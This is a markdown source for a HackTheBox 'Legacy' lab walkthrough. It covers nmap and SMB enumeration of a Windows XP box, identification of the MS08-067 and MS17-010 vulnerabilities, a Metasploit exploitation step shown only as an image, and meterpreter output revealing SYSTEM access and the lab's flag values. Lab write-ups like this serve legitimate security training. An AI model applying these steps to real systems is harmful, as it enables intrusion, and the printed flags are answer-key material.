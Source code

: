 ```yaml
---
title: HackTheBox - Legacy
date: 2021-01-05 17:58:12 +0100
categories: [Hackthebox walkthroughs, Windows, Easy]
tags: [htb-windows-easy, samba, MS08-067, CVE-2008-4250, metasploit, meterpreter, writeup, oscp-prep]
image: https://amirr0r.github.io/assets/img/htb/machines/windows/easy/legacy/Legacy.png
---
```


## Enumeration

### `nmap` scan

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Legacy-full-port-scan.txt 10.10.10.4
Nmap scan report for 10.10.10.4
Host is up (0.12s latency).
Not shown: 65532 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -3h56m10s, deviation: 1h24m51s, median: -4h56m10s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:67:71 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2021-01-05T13:28:59+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

The target is a **Windows XP** server running **Samba**.

### smb (ports 139 & 445)

```bash
$ smbclient -L //10.10.10.4/ -U '%' | tee services/139-smbclient.txt
protocol negotiation failed: NT_STATUS_IO_TIMEOUT
$ smbmap -H $TARGET -R
[+] IP: 10.10.10.4:445  Name: 10.10.10.4
$
```

### `nmap` scan vuln

```bash
$ nmap -min-rate 5000 --max-retries 1 --script vuln -oN vuln-scan.txt 10.10.10.4
```

![nmap vuln scan](https://amirr0r.github.io/assets/img/htb/machines/windows/easy/legacy/nmap-vuln-scan.png)

Two critical vulnerabilities allowing remote code execution affect our target machine:

- **MS08-067** (`CVE-2008-4250`) 
- **MS17-010** (`CVE-2017-0143`) 

## Exploitation

Both of these vulns can be exploited through Metasploit modules.

### Metasploit (exploiting MS08-067)

![msf](https://amirr0r.github.io/assets/img/htb/machines/windows/easy/legacy/msf.png)

## SYSTEM user

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > pwd
C:\WINDOWS\system32
meterpreter > search -f user.txt
Found 1 result...
    c:\Documents and Settings\john\Desktop\user.txt (32 bytes)
meterpreter > cat C:\\Documents\ and\ Settings\\john\\Desktop\\user.txt
e69af0e4f443de7e36876fda4ec7644f
meterpreter > search -f root.txt
Found 1 result...
    c:\Documents and Settings\Administrator\Desktop\root.txt (32 bytes)
meterpreter > cat C:\\Documents\ and\ Settings\\Administrator\\Desktop\\root.txt
993442d258b0e0ec917cae9e695d5713
```
___

## Useful links

- [CVE-2008-4250](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250)
- [Microsoft Security Bulletin MS08-067 - Critical](https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2008/ms08-067?redirectedfrom=MSDN)